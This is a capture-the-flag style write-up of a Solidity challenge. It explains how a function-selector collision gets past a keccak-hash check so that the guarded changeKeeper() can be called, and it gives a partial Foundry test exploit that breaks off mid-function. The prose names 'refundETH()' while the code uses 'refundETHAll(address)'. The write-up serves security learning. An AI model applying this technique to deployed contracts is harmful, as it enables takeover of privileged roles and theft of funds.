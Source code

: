 ```solidity
            abi.encodeWithSignature(f, msg.sender)
        );
        require(success, "call fail");
    }

    function keeperCheck() external view returns (bool) {
        return (msg.sender == keeper);
    }
}
```

## Observation

To call `keeperCheck()` and make it return ture, we need to be the keeper .

we can see the `changeKeeper()` is onlyOwner , so we need to find another way.

In `secretFunction()` the require
```
require(keccak256(bytes(f)) !=  0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428,"invalid");
```
=>
```
0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428 = changeKeeper(address)
```

Does it really prevent us from calling `changeKeeper()`? Not really.

We all know that functions are called based on function selector, which is just the first 4 bytes of the keccak256 of its signature. That is, we can call some random function signature to trigger a call to `changeKeeper()`, as long as their function selectors match.

To find a suitable function name with same function selector as `changeKeeper()` -> `0x09779838`, I used Database:
![[Pasted image 20240130140521.png]]

we find the `refundETH()`.

## Attack
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../src/Donate/Donate.sol";

contract donateHack is Test {
    Donate donate;
    address keeper = makeAddr("keeper");
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() public {
        vm.prank(owner);
        donate = new Donate(keeper);
    }

    function testhack() public {
        vm.startPrank(hacker);
        // Hack Time
        console.log(address(donate.keeper()));
        donate.secretFunction("refundETHAll(address)");
        console.log(address(donate.keeper()));
        console.log(address(hacker));
```